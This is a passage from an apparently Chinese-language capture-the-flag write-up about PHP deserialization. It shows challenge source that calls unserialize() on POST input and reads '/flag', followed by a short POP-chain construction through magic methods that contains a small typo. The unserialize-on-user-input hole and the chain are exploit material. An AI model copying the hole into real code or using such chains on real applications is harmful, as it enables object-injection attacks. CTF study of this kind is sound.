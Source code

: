 ```php
    }
}
 
class Sec{
    private $obj;
    private $var;
 
    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
    }
 
    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}
 
class Easy{
    public $cla;
 
    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}
 
class eeee{
    public $obj;
 
    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
}
 
if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```

发现Sec类中存在可以输出flag的函数  于是作为pop链尾端构建pop链子

```php
a=new Start();
$a->name=new Sec();
$a->name->obj=new Easy();
$a->name->var=new eeee();
$a->name->var->obj=new Start();
$a->name->var->obj->func=new Sec();
```
